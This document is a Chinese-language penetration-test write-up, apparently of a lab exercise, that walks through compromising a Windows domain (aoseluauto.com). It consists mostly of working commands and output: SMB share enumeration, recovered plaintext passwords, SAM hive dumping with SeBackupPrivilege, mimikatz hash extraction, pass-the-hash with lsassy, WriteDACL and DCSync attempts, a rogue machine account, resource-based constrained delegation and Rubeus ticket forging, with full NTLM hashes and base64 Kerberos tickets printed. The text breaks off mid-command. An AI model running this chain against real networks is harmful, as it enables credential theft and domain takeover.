└─# proxychains4 -q nxc smb 172.16.34.23 -u EthanMorris -p 'DROCV4?LtyCp' --shares
SMB         172.16.34.23    445    ASLSRVFS02       [*] Windows 10 / Server 2019 Build 17763 x64 (name:ASLSRVFS02) (domain:aoseluauto.com) (signing:False) (SMBv1:False)
SMB         172.16.34.23    445    ASLSRVFS02       [+] aoseluauto.com\EthanMorris:DROCV4?LtyCp
SMB         172.16.34.23    445    ASLSRVFS02       [*] Enumerated shares
SMB         172.16.34.23    445    ASLSRVFS02       Share           Permissions     Remark
SMB         172.16.34.23    445    ASLSRVFS02       -----           -----------     ------
SMB         172.16.34.23    445    ASLSRVFS02       ADMIN$                          Remote Admin
SMB         172.16.34.23    445    ASLSRVFS02       C$                              Default share
SMB         172.16.34.23    445    ASLSRVFS02       FileService     READ,WRITE      Aoselu FileService
SMB         172.16.34.23    445    ASLSRVFS02       IPC$            READ            Remote IPC

```

域用户`EthanMorris`只对`ASLSRVFS02$`主机上的共享文件夹`FileService`有读写权限。

smb进一步信息收集

```
python smbclient.py aoseluauto.com/EthanMorris:DROCV4?LtyCp@172.16.34.23
```

```
# shares
ADMIN$
C$
FileService
IPC$
#

```

前面我们得知是处于172.16.34.23的用户都是在ITgroup里的，直接看IT





找到几个账密，主要是要用svc\_bakadm01

```
# --- credentials ---
$username = "aoseluauto\svc_bakadm01"
$password = "k3!8Fa&Sq8Z6"


$backupUser = "aoseluauto\svc_bakadm02"
$backupPassPlain = "CYNpR5i@Z?_="
```

那么我们rdp





很奇怪，直接rdp上去，权限是不够的

使用evil-winrm打一下

```
┌──(root㉿Hundredsu)-[~]
└─# proxychains4 -q evil-winrm -i 172.16.34.23 -u svc_bakadm01 -p 'k3!8Fa&Sq8Z6'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_bakadm01\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

#### SeBackupPrivilege-注册表提权

这里可以看到有SeBackupPrivilege

注册表获取

`reg save HKLM\SYSTEM sys.hiv`

`reg save HKLM\SAM sam.hiv`

`lsadump::sam /SAM:sam.hiv /SYSTEM:sys.hiv`

```
*Evil-WinRM* PS C:\Users\svc_bakadm01\Documents> reg save HKLM\SYSTEM sys.hiv
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_bakadm01\Documents> reg save HKLM\SAM sam.hiv
The operation completed successfully.
```



rdp下载或者用工具下载下来

解密hash

```
mimikatz # lsadump::sam /SAM:sam.hiv /SYSTEM:sys.hiv
Domain : ASLSRVFS02
SysKey : 833ec52f6f12689eda8e8ed4d5374009
Local SID : S-1-5-21-3738990733-2195238930-2414615058

SAMKey : 4d4878654b95321d05917e2ee1249147

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 74aaf464e1a7a75f2123ada1dd62edab
    lm  - 0: e7bad95587f6ad969d96d05667fe8c19
    ntlm- 0: 74aaf464e1a7a75f2123ada1dd62edab
    ntlm- 1: 74aaf464e1a7a75f2123ada1dd62edab

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b39fea8560c0eefaa1f07243f16fd7ea

* Primary:Kerberos-Newer-Keys *
    Default Salt : ASLSRVFS02.AOSELUAUTO.COMAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 188fe60f47efe9693471b3684966d4039c413ecc88a4aee6f47c71b2c1674f35
      aes128_hmac       (4096) : 12a677d89007b4add587b4bccf1d5f64
      des_cbc_md5       (4096) : 68ea7f625d8f191c
    OldCredentials
      aes256_hmac       (4096) : 3f62f69b60fce562d1bf07bc11550eb05636382c39d6121142f2493aa191a411
      aes128_hmac       (4096) : b4dfb71180ba6d0f86f6145dcd98df2e
      des_cbc_md5       (4096) : 5bd37a57b3790483

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ASLSRVFS02.AOSELUAUTO.COMAdministrator
    Credentials
      des_cbc_md5       : 68ea7f625d8f191c
    OldCredentials
      des_cbc_md5       : 5bd37a57b3790483


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 3d23ddf5c2e625618408ee0ce3b888cb

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 67e9590d1dacf510060b878de44923ed

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ef3800dc9b13f309ed0aae0bd11f788f9c2ec01f39ecda41b53cff136f329683
      aes128_hmac       (4096) : 89288ad0ec267eb06faff6671686209a
      des_cbc_md5       (4096) : 198c08e97c94e38f

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 198c08e97c94e38f


```

#### PTH

获取到02管理员的hash为

```
74aaf464e1a7a75f2123ada1dd62edab
```





```
Extranet 172.16.53.30  已拿下  反序列化打内存马 cve-2025-32463
ASLITPC03 172.16.36.21   已拿下  mysql udf potato  winauto自动登录账密
ASLSRVFS02 172.16.34.23  已拿下  winauto账密泄露 注册表转存 抓取hash提权
ASLSRVAD05 172.16.34.5  DC
```

接下来就重新抓取一下hash，然后利用writedacl拿下域控了

### flag04

利用writedacl的方法有很多，这里我的初想法还是Dcsync（想偷懒）

可以直接利用nxc转存hash

```
proxychains4 -q nxc smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -M lsassy
```

还是得rdp上去，不然抓取不到，应该是开了wd的原因



果然



```
┌──(root㉿Hundredsu)-[~]
└─# proxychains4 -q nxc smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -M lsassy
SMB         172.16.34.23    445    ASLSRVFS02       [*] Windows 10 / Server 2019 Build 17763 x64 (name:ASLSRVFS02) (domain:ASLSRVFS02) (signing:False) (SMBv1:False)
SMB         172.16.34.23    445    ASLSRVFS02       [+] ASLSRVFS02\Administrator:74aaf464e1a7a75f2123ada1dd62edab (Pwn3d!)
LSASSY      172.16.34.23    445    ASLSRVFS02       ASLSRVFS02\Hundredsu 72d98c440b25ce7b05d81233044c020c
LSASSY      172.16.34.23    445    ASLSRVFS02       AOSELUAUTO\svc_bakadm01 95f063de7e971e16bcc9d0e8fdd6e857
LSASSY      172.16.34.23    445    ASLSRVFS02       AOSELUAUTO\svc_monadm01 ab232c3cf9f4b7cf27602082b04f306b
LSASSY      172.16.34.23    445    ASLSRVFS02       aoseluauto.com\svc_monadm01 96Mr!je39y_p
```

那么现在继续

#### wirteDACL+DCSync(没成功)

没成功也有可能是我的技术不到位，有会的师傅可以指导一下

添加DCSync权限

```
(base) PS D:\red\内网\免杀工具包\免杀工具包\impacket-0.12.0\examples> python dacledit.py aoseluauto.com/svc_monadm01 -hashes "00000000000000000000000000000000:ab232c3cf9f4b7cf27602082b04f306b" -action write -rights DCSync -principal svc_monadm01 -target-dn "CN=ASLSRVAD05,OU=Domain Controllers,DC=aoseluauto,DC=com"  -dc-ip 172.16.34.5
D:\Anaconda\Anaconda3\Lib\site-packages\requests\__init__.py:109: RequestsDependencyWarning: urllib3 (2.3.0) or chardet (5.0.0)/charset_normalizer (2.0.4) doesn't match a supported version!
  warnings.warn(
Impacket v0.9.23 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250710-192030.bak
[*] DACL modified successfully!
```

```
python secretsdump.py aoseluauto.com/svc_monadm01@172.16.34.5 -hashes "00000000000000000000000000000000:ab232c3cf9f4b7cf27602082b04f306b" -just-dc-ntlm
```



没成功

#### writeDACL+RBCD

还是老老实实吧

添加恶意主机

```
python addcomputer.py -computer-name 'test$' -computer-pass '123@#ABC' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
```

利用 WriteDacl修改目标的 DACL，添加指定用户对该主机的完全控制权限

```
python dacledit.py -action 'write' -rights 'FullControl' -principal 'svc_monadm01' -target-dn 'CN=ASLSRVAD05,OU=Domain Controllers,DC=aoseluauto,DC=com' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
```



```
python dacledit.py aoseluauto.com/svc_monadm01 -hashes "00000000000000000000000000000000:ab232c3cf9f4b7cf27602082b04f306b" -action write -rights FullControl -principal svc_monadm01 -target-dn "CN=ASLSRVAD05,OU=Domain Controllers,DC=aoseluauto,DC=com"  -dc-ip 172.16.34.5
```



在cmd输入一直出错，搞了好久

转powershell才行，应该是编码的问题

打rbcd,添加权限

```
proxychains4 python3 rbcd.py -delegate-from 'test$' -delegate-to 'ASLSRVAD05$' -action 'write' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
```

```
(base) PS D:\red\内网\免杀工具包\免杀工具包\impacket-0.12.0\examples> python rbcd.py -delegate-from 'test$' -delegate-to 'ASLSRVAD05$' -action 'write' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
D:\Anaconda\Anaconda3\Lib\site-packages\requests\__init__.py:109: RequestsDependencyWarning: urllib3 (2.3.0) or chardet (5.0.0)/charset_normalizer (2.0.4) doesn't match a supported version!
  warnings.warn(
Impacket v0.9.23 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] test$ can now impersonate users on ASLSRVAD05$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     test$        (S-1-5-21-198605783-2356506617-271110585-1247)
```



获取票据（没成功）

```
proxychains4 python getST.py -spn cifs/ASLSRVAD05.aoseluauto.com aoseluauto/test\$:'123@#ABC' -impersonate SVC_ADM01 -dc-ip 172.16.34.5
```

```
proxychains4 impacket-getST -spn cifs/ASLSRVAD05.aoseluauto.com aoseluauto/COMPUTER\$:'123@#ABC' -impersonate SVC_ADM01 -dc-ip 172.16.34.5
```

```
┌──(root㉿kali)-[/home/kali/red/impacket-0.11.0/examples]
└─# proxychains4 impacket-getST -spn cifs/ASLSRVAD05.aoseluauto.com aoseluauto/COMPUTER\$:'123@#ABC' -impersonate SVC_ADM01 -dc-ip 172.16.34.5                                                                   
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] DLL init: proxychains-ng 4.15
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[proxychains] Strict chain  ...  47.113.229.136:1123  ...  172.16.34.5:88  ...  OK
[proxychains] Strict chain  ...  47.113.229.136:1123  ...  172.16.34.5:88  ...  OK
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

```

显示Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)

需要向域控同步时间才能解决，但是我的kali一直无法同步，我这里就只列出来方法就不用这个方法打了

```
ntpdate 172.16.34.5

export KRB5CCNAME=administrator.ccache
```

域控时间同步可以用下面的方法

从<https://www.c1trus.top/>

这个佬的博客上学到的

```
faketime '2025-08-07 6:40:01' proxychains4 certipy-ad -debug auth -pfx dc.pfx -dc-ip 10.6.6.55 
```



这里还可以手动设置系统和域内主机一样的时间，就可以成功解密的了

最后我选择换个方法请求票据

这里我重新弄了个恶意用户，害怕前面配错了 导致出问题



```
(base) PS D:\red\内网\免杀工具包\免杀工具包\impacket-0.12.0\examples> python rbcd.py -delegate-from 'EVILCOMPUTER$' -delegate-to 'ASLSRVAD05$' -action 'write' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
D:\Anaconda\Anaconda3\Lib\site-packages\requests\__init__.py:109: RequestsDependencyWarning: urllib3 (2.3.0) or chardet (5.0.0)/charset_normalizer (2.0.4) doesn't match a supported version!
  warnings.warn(
Impacket v0.9.23 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVILCOMPUTER$ can now impersonate users on ASLSRVAD05$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     EVILCOMPUTER$   (S-1-5-21-198605783-2356506617-271110585-1245)


(base) PS D:\red\内网\免杀工具包\免杀工具包\impacket-0.12.0\examples> python rbcd.py -delegate-from 'COMPUTER$' -delegate-to 'ASLSRVAD05$' -action 'write' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
D:\Anaconda\Anaconda3\Lib\site-packages\requests\__init__.py:109: RequestsDependencyWarning: urllib3 (2.3.0) or chardet (5.0.0)/charset_normalizer (2.0.4) doesn't match a supported version!
  warnings.warn(
Impacket v0.9.23 - Copyright Fortra, LLC and its affiliated companies

[*] Accounts allowed to act on behalf of other identity:
[*]     EVILCOMPUTER$   (S-1-5-21-198605783-2356506617-271110585-1245)
[*] Delegation rights modified successfully!
[*] COMPUTER$ can now impersonate users on ASLSRVAD05$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     EVILCOMPUTER$   (S-1-5-21-198605783-2356506617-271110585-1245)
[*]     COMPUTER$    (S-1-5-21-198605783-2356506617-271110585-1246)
```

获取新增虚拟用户的rc4

```
.\Rubeus.exe hash /password:123@#ABC /user:test$ /domain:aoseluauto.com
```

这里一开始先是用的Administrator，但是被禁用了

`[X] KRB-ERROR (18) : KDC_ERR_CLIENT_REVOKED`

更换一个域管理员账号

这里的rc4记得改为自己的

请求票据并导入

```
Rubeus.exe s4u /user:test$ /rc4:3A37C6AC3AFBEEF7A8EB36A4481BDED4 /domain:aoseluauto.com /msdsspn:cifs/ASLSRVAD05 /impersonateuser:SVC_ADM01 /nowrap /ptt /outfile:ticket.kirbi

```

```

C:\Users\hub>Rubeus.exe s4u /user:test$ /rc4:3A37C6AC3AFBEEF7A8EB36A4481BDED4 /domain:aoseluauto.com /msdsspn:cifs/ASLSRVAD05 /impersonateuser:SVC_ADM01 /nowrap /ptt /outfile:ticket.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: S4U

[*] Using rc4_hmac hash: 3A37C6AC3AFBEEF7A8EB36A4481BDED4
[*] Building AS-REQ (w/ preauth) for: 'aoseluauto.com\test$'
[*] Using domain controller: 172.16.34.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFeDCCBXSgAwIBBaEDAgEWooIEijCCBIZhggSCMIIEfqADAgEFoRAbDkFPU0VMVUFVVE8uQ09NoiMwIaADAgECoRowGBsGa3JidGd0Gw5hb3NlbHVhdXRvLmNvbaOCBD4wggQ6oAMCARKhAwIBAqKCBCwEggQosvzRkTg69j8zlzYVH6ZyyZSQhKxigE/jNQl+lfY/bgIh/Y27t5IWy9JgYzgnvVXXFBY65+8Mwk9MRdJbIQHk5PaoRZI9ww4VuImxz3ZF+U3KDOv7yDneM5NHvEYLf9XAKakKHGvIHMsPEi/sfPOzRGr6tlRGSpFUsRgUKH31z9EFxNRqzs5BMo3f1SFQageXWSEbyrCOzh5Jbljaw0ARWOtpzTrtCPq9vieSM2Tk2uFqppPbEbtDFMwewSxNd2ZscafImEch5kQasRLMPe7LiIJ6VsvzY0qwVF6/K9LF3W3wPDIwPFTjT3cIwN6I2nIOps1b0bFWBGqCRTqr0fdGb/+uf4SDXIlFgs3lc0dPrExzzmtBTaKCg+AbLVFE95ajgPXvx050Bj1Q73f99JnSmks9gZWJ2Z/Y4H/wJ9ODNM11abODATr/8PektowpZhSkRuIm3F8+YYOllA+ev9ZAeJaPb6y2mEEHCLfmKHLSFZTlCT2pfjFJWCW06WGPKojzYfRRnAYulGRAJYxgSYEI6Hq+bUXiJ3NyRl0CNSJR7WZXtn2Zkgs0KGOMr6XzpLwWxXZnjBCTO8QdgTCe0IZQ4WFFsnJR099AEeOkX2prozfbUAPbfz6HW7D4a6zNZdMfwG1cZWZaQUa6L2fnM/X8PEG5Dc3B8DNRubYyJ/FkcMG1ZOugW50FiBysRXhVRlmbkyX0wj0vjWLJiktk9MZa5Lq7vUskToJO8+vYIHsc7RDEm/z3cwnscr6MhAvNb7F2sr/4GviLPiwix4wh1IInlEWXK00zqEDJijUxsVk4h6C3mumkp5iL22MdhYA9m9UdZLDTsP262LGTqpV7W9Ace88WKpPsJn6aWNQqH9pfETM3+7s7hBCFq8956uBXMBn+4XZDoWSXfpEH1GOtNE70YeCLds/PhK7VVkBbJUGM1ITHajv0Mru2Ejz02xtSA0EVcVj88am3UNOZxPcoiDM1srZQKtf+SHLQXlDfULlFccsa8OdRWMFZpcfy2PRk+0AbMmbEIGzBL1FmlKp4wzSHOXoS/h9BYlt0XVp8vgjbi8i01LGe2d6tmYCy6TQBaO5qZOdi/e3JbOupzt/7h0l14sJdoTNPKvkDN604pm7qFAGeebHKP9w9dcsHDoQ1QaWv8or9CT4tDk1gPnuwJ7luAsX30xKrLmvFe7tAAMGjMawF2CZYXrxCU8W8H+orNxsEj23O8ZI2f81eiGHQPHSacxlnv+/eLRBtCZ30Al2ou/8J9+B23Sb6JpPP0wJ1IoVBiXwEZRdbticCaE5nFX2rFaY4CzlXJzuxXKSIKIFhnxFFFtF3wV19Q04MSQvb3gHxEEsfc1y3T8sCR1+6kn8p7BNemh25fLOarQUtZyfU12YAfYmZ/1zL/JZWQKV2UJFW28pkwimjf46jgdkwgdagAwIBAKKBzgSBy32ByDCBxaCBwjCBvzCBvKAbMBmgAwIBF6ESBBDiwau1b7YA8zEtgpt++J78oRAbDkFPU0VMVUFVVE8uQ09NohIwEKADAgEBoQkwBxsFdGVzdCSjBwMFAEDhAAClERgPMjAyNTA3MTEwNjQyMzhaphEYDzIwMjUwNzExMTY0MjM4WqcRGA8yMDI1MDcxODA2NDIzOFqoEBsOQU9TRUxVQVVUTy5DT02pIzAhoAMCAQKhGjAYGwZrcmJ0Z3QbDmFvc2VsdWF1dG8uY29t


[*] Action: S4U

[*] Building S4U2self request for: 'test$@AOSELUAUTO.COM'
[*] Using domain controller: ASLSRVAD05.aoseluauto.com (172.16.34.5)
[*] Sending S4U2self request to 172.16.34.5:88
[+] S4U2self success!
[*] Got a TGS for 'SVC_ADM01' to 'test$@AOSELUAUTO.COM'
[*] base64(ticket.kirbi):

      doIFyjCCBcagAwIBBaEDAgEWooIE2TCCBNVhggTRMIIEzaADAgEFoRAbDkFPU0VMVUFVVE8uQ09NohIwEKADAgEBoQkwBxsFdGVzdCSjggSeMIIEmqADAgEXoQMCAQKiggSMBIIEiBpcDaFpskxr1Mka/vu5cxr3AiGf7wQy8gdUedySlbsgLSu+GEl8QHzfC+ONfTQIFttTGeUMwtz/g2SlmydWpNTOp6kdrZbS1vNZPWSQ+Wz/n1gmp6hvNLIWrlt3AGcU3TFnsUbVMlKoNX1Hz9MaGy/okm9FhxWslwyQ74hXgBntWL5c1EhqiewuwWEJrBILvxDN7lFer62jru2aTS9tiOAVedTJLorJwoQ14XtrRhs1wkThw7pvFjI88DVKCEs60bl6BX3fRGiol4i+puU5cPmr4IGLXTDR/YHneHXDqdIRs1bt4XMbZ1Z5jEaqygaP/6dUovE96cgdN2kN223D5KNTaQTReoGRy0gmi4feQIbTeZ13/QFOUULw8oIelKuU0RrECo3Q3xVZaDkbTN9OGIIHIIfUVEhhQx9iYCuAIpLhtnEhVW+7SR+6th2ltRFAd4BCoohHvo7yVv4BsZh61SDM6rUJdWVlZ+lXu7CsiOg7ChfqBFAOXBpMODjoDeQTS4qiGJ9tUYDbdQRelRFBV9ZumQ6uVXm71Se1ypENGAwdHSWoxmKxX2A1WztwAOZpP4oQda7VmxVnDV6gpblUGwA72cyk0JwLnZqy6W1ueDpcqmrRtj2vpjEofqVs8bw+tr87xU5DdH0TEPHIoiR5ZpkIqqO73n+edil2WTqk4yTvF83VOMBEZWcNiMnijJxoNoKrtVgdoziBsICLk8SfjLrMwMWVrIM4xn6ilvYZAcy531r5Wrd47FRvaURhFf5lFvglxXdGgNoX6rUi3pvtMTQZ7RI7z3eRJH+VkSLaBhoRTrWTnnJYebpIEuwD/PGlOz9AG9WulpCqIDspCPCvc1FSwlLmq5VK0ECoUgbYT90GiWiEGKiMRB0lR1CcsBI2gdP87TnR2STO61Fea8btxiVWaDO8SW4o0jHCcEmyuetAHgu1hyj3o/r0TIR5RP0LtG3TZUs8M1JjIC07WLLzI/ymciXFzIQCqLPI/m8/z5Zo1nHVRgABIrUpLZvl+ahVRvMhid9MlX0BEnnlmbj/1w3ugA04BJolxX0DMsno9zRHF6sLHqJoDboTrqgviE7LeLhjir2JjGgMfux7Uw0aixTHMX1AeuNIT5sC7+Yo3shUfnicV3Wt/oo1BxOqnx+AeJJyYC+bF7cBNL0ucxp7V5deidJ42QGa/XMS8iqOOLaQLtbHpdwR28BOTMVzhuqMrXprmE+8kJVSSMKw6AxmLb29ewr/T9iMPKkkrq1CYklcVl8cLrMG0uykH8MbHOT67clQpfmHKDLW2YKaQErwFvk3b0a14bqu988ousxYmfQWYu9jUIOPZCi8YrNzbSS+lgG0Vw0loGz5qtDhqkcXQAXeTlG3s7byAs7+jHDJGfP7mBvkbWBdpJDpVvYsn361YouNu+tCiqW/IMZwn8E1ZnsVl6h80FDm4uAWxbe5het+GrbroU1HuaQQsNAEIv3qQRrvBPtUY7GGRPqBkURgevXls5GUv29KeDwzrSpiKgfYxPKr1mFCvkih2w+80acIsnDYxQ3aabQdo4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gKzApoAMCARKhIgQgFi745SGRLv1bOW2Qw5mNC0YrUMA/RtfYKJzlMCfUmt6hEBsOQU9TRUxVQVVUTy5DT02iFjAUoAMCAQqhDTALGwlTVkNfQURNMDGjBwMFAEChAAClERgPMjAyNTA3MTEwNjQyMzhaphEYDzIwMjUwNzExMTY0MjM4WqcRGA8yMDI1MDcxODA2NDIzOFqoEBsOQU9TRUxVQVVUTy5DT02pEjAQoAMCAQGhCTAHGwV0ZXN0JA==


[*] Ticket written to ticket_SVC_ADM01_to_test$@AOSELUAUTO.COM.kirbi

[*] Impersonating user 'SVC_ADM01' to target SPN 'cifs/ASLSRVAD05'
[*] Building S4U2proxy request for service: 'cifs/ASLSRVAD05'
[*] Using domain controller: ASLSRVAD05.aoseluauto.com (172.16.34.5)
[*] Sending S4U2proxy request to domain controller 172.16.34.5:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/ASLSRVAD05':

      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
```

导入成功了，这里其实可以直接dir读取flag了，但是我还是想尝试ptt



.\Rubeus.exe hash /password:123@#ABC /user:test$ /domain:aoseluauto.com复制最后这个base64的票据，把他由 `.kirbi` 转换为impacket支持的 `.ccache` 格式

```
echo doIGXDCCBligAwIBBaEDAgEWooIFcDCCBWxhggVoMIIFZKADAgEFoRAbDkFPU0VMVUFVVE8uQ09Noh0wG6ADAgECoRQwEhsEY2lmcxsKQVNMU1JWQUQwNaOCBSowggUmoAMCARKhAwIBBKKCBRgEggUUBpJm6Q6qlSPloxxeRUbQSrVrIJjQG0PxFxx7gcNfZsnoQrJDVApcddXZhmFl8CS4544vVLbakXEJbJA015GIzn+aGUXdFT7RBs5T/kXoRp6fcOIYYGiIi/WObD/NVu9kopNIza/9D07P65CKBHqT9BxAFkIJQVafKnv9Du4XoppSzjCCdSkjWbi0KjXOwwPloL1aP6SJLdkAZosnjnGQ2Tp5G40xM3LVRynJp3bKXD5wzKeEWcF0pdpFyBBZzjXpCfwtj37Ny6MsUv6xi4WtLr5VuhPIECJ3k8QZ4KKpxfpPlAzMp6RaPL+3lNBqpRJRP7Mq39nqOQmSmVKmO9eNpjjYMElCWCA2zSfN4F+hXsztv92Mdoqbh9ulsovEAuO8f4fie7NwqL3Mg2DwPzF8AvkBlX7WVjecoVKzyarBnntMhKQcG5Cbl3Y8HjaAuAhaMVM7gzudNBz8j+xYLJ8f+2O/PO7MAFm9TQAyFirVbpWQqRRHnj19nzAfJ66N4bs5x7dsk/g4Mn2Qfk/YYDqeQYt+WFQszVzPsAcxgZkZ2LtV4nq0Nsj9CdKkF8W1sD25qDuvZ7kzLnalJRlCbWQzCO3GSQQv1gWXGS+jIRBIaSOKwpg0MbHaYmAme7TjXBKu5ZqpNwF8KzgPrKqeHiSBGr29OefUL62V+NRXI5isvnoC+31r1jC05a9XkbNeOkebOqT35hNu9EtUuxICHgiY1PVR2FqXEanYyOpC8V4nOePeMA9VUZ/KEQ5uiVyTX+aqA64APbii2ZZ1XJ1EBU07ZOvb0reuxLWScyiTCvjoJ6TlD8Em6tYAFgVyXSCNHeT8ZoA8etiVy/Sc7ItrRHIJTUIoacuvDxkDHDWfFZIU8k